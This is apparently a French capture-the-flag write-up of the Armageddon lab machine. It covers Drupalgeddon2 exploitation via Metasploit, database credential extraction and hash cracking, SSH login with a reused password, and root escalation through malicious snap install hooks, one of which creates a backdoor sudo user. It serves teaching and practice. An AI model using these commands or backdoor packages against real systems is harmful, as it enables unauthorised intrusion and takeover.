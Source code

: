 # Armageddon [Linux] Machines

# — 1.Enumeration —

## Nmap

`nmap -sS -A -sC -sV -p- 10.10.10.233`

```bash
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16) 
Drupal 7
```

## FFuf

```bash
http://10.10.10.233/misc/
http://10.10.10.233/scripts/
http://10.10.10.233/sites/
http://10.10.10.233/themes/
http://10.10.10.233/profiles/
http://10.10.10.233/includes/
```

## MetaSploit

J’ai essayer cette exploit mais ça n’a pas marché : [https://www.exploit-db.com/exploits/34992](https://www.exploit-db.com/exploits/34992)

J’ai utilisé ensuite drupalgeddon2 depuis Metasploit :

`use unix/webapp/drupal_drupalgeddon2` 

`set LHOST RHOST`

On obtient un shell très rapidement.

# — 2.Exploitation —

## Exploitation de la BDD

Une chose importante en Exploitation Drupal est ce fichier :

`/var/www/html/sites/default/settings.php`

![Untitled](Armageddon%20%5BLinux%5D%20Machines%20a2ac39929d004e299acdd21ce0a218d7/Untitled.png)

On a donc un utilisateur mysql on peut jeter un œil aux tables

`mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;’`

```bash
Database
information_schema
drupal
mysql
performance_schema
```

`mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; show tables;’`

Il y a pas mal de table on va regarder la table user.

`mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; select * from users;’`

```bash
brucetherealadmin $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt [admin@armageddon.eu](mailto:admin@armageddon.eu)
```

On a un hash du mot de passe de l’admin.

## John Crack Password

On à un hash de mot de passe nous allons utiliser le cracker de hash “john the ripper” 

On met le hash dans un fichier hash.txt

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt > result.txt`

Son mot de passe est booboo

Identifiant = `brucetherealadmin:booboo`

## SSH

Bruce réutilise ces mot de passe, pour sa connexion SSH on peux se connecter 

`ssh [brucetherealadmin@10.10.10.233](mailto:brucetherealadmin@10.10.10.233)` mot de passe `booboo`

Premier Flag récupérer

# — 3.Privilege Escalation —

`sudo -l`
(root) NOPASSWD: /usr/bin/snap install *
On peux installer snap

Sur [Gtfobins](https://gtfobins.github.io/) nous pouvons voir que nous pouvons créé un package malicieux et exécuter des commandes en tant qu’utilisateur root : 

```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

On le réécrit pour obtenir notre flag depuis une seul commande

```bash
COMMAND="cat /root/root.txt"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

Ça nous créé un package malicieux qui affiche root.txt qu'on attrape avec curl :

`curl 10.10.14.16/xxx_1.0_all.snap -o cat.snap` et on installe le package avec cette commande `sudo snap install cat.snap --dangerous --devmode`

L’ordinateur va essayer d’installer le package mais nous aurons en retour le flag à la place.

# — Notes —

## Moi

J’ai essayé de craft un packet qui donne un le compte root :

```bash
COMMAND="bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxx -s dir -t snap -a all meta
```

Mais cela ne marche pas car avec cette méthode je n’ai qu’un retour de la commande.

Autres méthode mais pas essayé :

Récupérer le contenu de passwd et shadow pour un-hash le mot de passe de l’utilisateur root avec hashcat ou john ?

## Solution Officiel Pour plus de Piste

Pour la dernière partie exploitation la solution officiel était : 

Sur çà machine :

 

```bash
sudo apt update
sudo apt install snapd
sudo snap install --classic snapcraft
```

Créé un nouveau dossier :

```bash
# Make an empty directory to work with
mkdir new_snap
cd new_snap
# Initialize the directory as a snap project
snapcraft init
# Set up the install hook
mkdir snap/hooks

touch snap/hooks/install
chmod a+x snap/hooks/install
# Write the script we want to execute as root
cat > snap/hooks/install << "EOF"
#!/bin/bash
password="snap_user"
pass=$(perl -e 'print crypt($ARGV[0], "password")' $password)
useradd snap_user -m -p $pass -s /bin/bash
usermod -aG sudo snap_user
echo "snap_user ALL=(ALL:ALL) ALL" >> /etc/sudoers
EOF
# Configure the snap yaml file
cat > snap/snapcraft.yaml << "EOF"
name: snap-user
version: '0.1'
summary: Empty snap, used for exploit
description: |
This is an example
grade: devel
confinement: devmode
parts:
my-part:
plugin: nil
EOF
# Build the snap
snapcraft
```

Changer les permissions pour rendre le fichier exécutable

`chmod +x snapcraft.sh`

`./snapcraft.sh`

L’envoyer sur le ssh avec la commande :

`scp -r new_snap [brucetherealadmin@10.10.10.99](mailto:brucetherealadmin@10.10.10.99):/tmp`

Ensuite de l’installer avec sudo :

```bash
cd /tmp/new_snap
sudo snap install --devmode snap-user_0.1_amd64.snap
```

Le package est installé

On liste les snap installé `snap list`

`cat /etc/passwd`

Changer d’utilisateur :

```bash
su nap_user
sudo -l
```

On est maintenant root et on peux faire ce qu’on veux sur la machine !